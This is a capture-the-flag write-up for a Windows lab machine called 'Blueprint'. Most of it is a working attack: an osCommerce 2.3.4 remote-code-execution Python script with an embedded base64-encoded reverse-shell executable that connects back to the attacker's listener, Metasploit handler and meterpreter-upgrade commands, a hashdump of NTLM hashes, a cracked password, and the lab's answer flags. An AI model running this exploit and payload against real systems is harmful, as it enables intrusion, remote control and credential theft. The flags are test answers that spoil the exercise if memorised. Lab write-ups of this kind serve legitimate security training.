

# Blueprint

Hack into this Windows machine and escalate your privileges to Administrator.

# #1 - "Lab" user NTML hash decrypted

## Enumeration

Let's start with a Nmap scan:

~~~
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -20m01s, deviation: 34m38s, median: -2s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:49:50:24:3c:84 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-20T20:05:14+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T19:05:14
|_  start_date: 2020-06-20T18:49:40
~~~

After spending some time analyzing the network shares, trying to find hidden directories in the various HTTP services, it seems that the most interesting part is the `oscommerce` installation on port `8080`.

## OSCommerce exploit preparation

Searching for exploits against version 2.3.4 reveals several critical vulnerabilities, one of which related to RCE:

~~~
$ ./searchsploit oscommerce 2.3.4
[i] Found (#1): /data/src/exploitdb/files_exploits.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#1): /data/src/exploitdb/files_shellcodes.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                         | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                     | php/webapps/46330.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                          | php/webapps/44374.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

Let's download it:

~~~
$ ./searchsploit -m 44374
~~~

The script is initiated by default with a payload for a linux target:

```python
payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'
```

Let's search for a [Windows PHP reverse shell](https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php). 

Now, we need to adapt our exploit's payload to include this shell. Here is the final version of the exploit. All you need to change are the `rhost`, `lhost` and `lport`.

```python
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.


import requests

rhost = '10.10.249.97'
lhost = '10.9.0.54'
lport = 4444

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://{}:8080//oscommerce-2.3.4./catalog/".format(rhost)
target_url = "http://{}:8080/oscommerce-2.3.4./catalog/install/install.php?step=4".format(rhost)

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += '$ip = "{}";'.format(lhost)
payload += '$port = "{}";'.format(lport)
payload += '$payload = "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";'
payload += '$evalCode = gzinflate(base64_decode($payload));'
payload += '$evalArguments = " ".$port." ".$ip;'
payload += '$tmpdir ="C:\\windows\\temp";'
payload += 'chdir($tmpdir);'
payload += '$res .= "Using dir : ".$tmpdir;'
payload += '$filename = "D3fa1t_shell.exe";'
payload += '$file = fopen($filename, "wb");'
payload += 'fwrite($file, $evalCode);'
payload += 'fclose($file);'
payload += '$path = $filename;'
payload += '$cmd = $path.$evalArguments;'
payload += '$res .= "\n\nExecuting : ".$cmd."\n";'
payload += 'echo $res;'
payload += '$output = exec($cmd);'
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")
```

## Exploit OSCommerce

Let's open a listener in Metasploit:

~~~
$ msfconsole -q
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.9.0.54
lhost => 10.9.0.54
msf5 exploit(multi/handler) > run
~~~

Now, let's run our exploit:

~~~
$ python exploit.py 
[+] Successfully launched the exploit. Open the following URL to execute your code

http://10.10.249.97:8080//oscommerce-2.3.4./catalog/install/includes/configure.php
~~~

Visit the URL that appears in the exploit's output, and you should get a shell in Metasploit:

~~~
[*] Started reverse TCP handler on 10.9.0.54:4444 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.249.97
[*] Command shell session 1 opened (10.9.0.54:4444 -> 10.10.249.97:49361) at 2020-06-21 08:26:41 +0200

C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>whoami
whoami
nt authority\system
~~~

## Upgrade shell to meterpreter

This is perfect! And we are already granted administrator's privileges. Let's upgrade our session to a meterpreter using `session -u` (upgrade).

~~~
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>^Z
Background session 1? [y/N]  y
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x86/windows  b374k shell : connected Microsoft Windows [Version 6.1.7601] Copyright (c) 20...  10.9.0.54:4444 -> 10.10.249.97:49361 (10.10.249.97)

msf5 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.0.54:4433 
[*] Sending stage (176195 bytes) to 10.10.249.97
[*] Meterpreter session 2 opened (10.9.0.54:4433 -> 10.10.249.97:49365) at 2020-06-21 08:27:48 +0200
~~~

It worked and we should now have another session with a meterpreter. Let's connect to it:

~~~
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x86/windows        b374k shell : connected Microsoft Windows [Version 6.1.7601] Copyright (c) 20...  10.9.0.54:4444 -> 10.10.249.97:49361 (10.10.249.97)
  2         meterpreter x86/windows                                                                                    10.9.0.54:4433 -> 10.10.249.97:49365 (10.10.249.97)

msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid 

[*] Stopping exploit/multi/handler
Server username: NT AUTHORITY\SYSTEM
~~~

## Dump the password hashes

Now, let's dump the hashes

~~~
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
~~~

## Crack the lab's hash

The lab NTLM hash is `30e87bf999828446a1c1209ddde4c450`. Using crackstation, we see that the associated password is `googleplus`:



Answer: `googleplus`

# #2 - root.txt

Still in our meterpreter session:

~~~
meterpreter > cd /users/administrator/desktop
meterpreter > ls
Listing: C:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-04-12 00:36:47 +0200  desktop.ini
100666/rw-rw-rw-  37    fil   2019-04-12 00:40:59 +0200  root.txt.txt

meterpreter > cat root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
~~~

Root flag: `THM{aea1e3ce6fe7f89e10cea833ae009bee}`
